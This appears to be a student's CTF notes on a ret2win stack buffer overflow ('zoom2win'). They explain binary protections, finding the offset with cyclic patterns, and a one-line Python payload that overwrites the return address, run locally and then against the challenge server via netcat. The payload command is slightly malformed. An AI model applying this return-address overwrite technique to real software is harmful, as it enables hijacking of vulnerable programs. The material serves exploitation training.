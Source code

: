 ### N o T e S

---

In ret2win, we need to execute the win function to get the flag by overwriting the EIP.

- First two steps, add permissions using chmod  +x file name.  
- Then, check the options and protections enabled using checksec --file.  
- Aim of the pwn challenge is generally to overflow the buffer and overwrite the return address.
- It redirects the program towards a function which outputs the flag.

#### Things to do in classic ret2win :

- The padding until we begin to overwrite the return pointer (EIP)
- What value we want to overwrite EIP to

```py
1. Finding the padding
--> Trial and error, binary search. Sent arbitrary characters until u get SEG fault for the first time.

2. Find the address, using objdump or db and dc in radare. Form the exploit using py script and pwntools.
```

```
```py
NO PIE - It means the executable file and server have the same coded source file and won't change each time the program loads.
NX ENABLED - We cannot inject our own shellcode to the stack and execute it.
NO STACK CANARY - We can overflow the buffer and there won't be any canaries.
PARTIAL RELRO - read and write availability.
```

---

Use Ghidra and GDB. 

```py
PUTS - It displays some output just like printf.
GETS - It reads some data just like scanf.

Finding the offset : 
1. Generate a cyclic pattern : cyclic 100.
2. The first four bytes in RSP is the offset.
3. Use cyclic -l <four bytes> to find the actual offset.
4. Use the offset to overflow the function and return statement.
```

---


```py
Steps : 
disassemble flag
(assume offset is 40)

We use the memory address of the first function in disassemble flag
(assume it is 0x0000000000401196)

python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' 

(add this to a file payload)
python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' > payload

echo "Fake_flag" > flag.txt
(Dummy flag for local file)

Now, run < payload 
(fake_flag will be printed)

./zoom2win < payload
fake_flag Segmentation fault

Now when we run the netcat command with the payload we get our flag.
```

---

Thank you


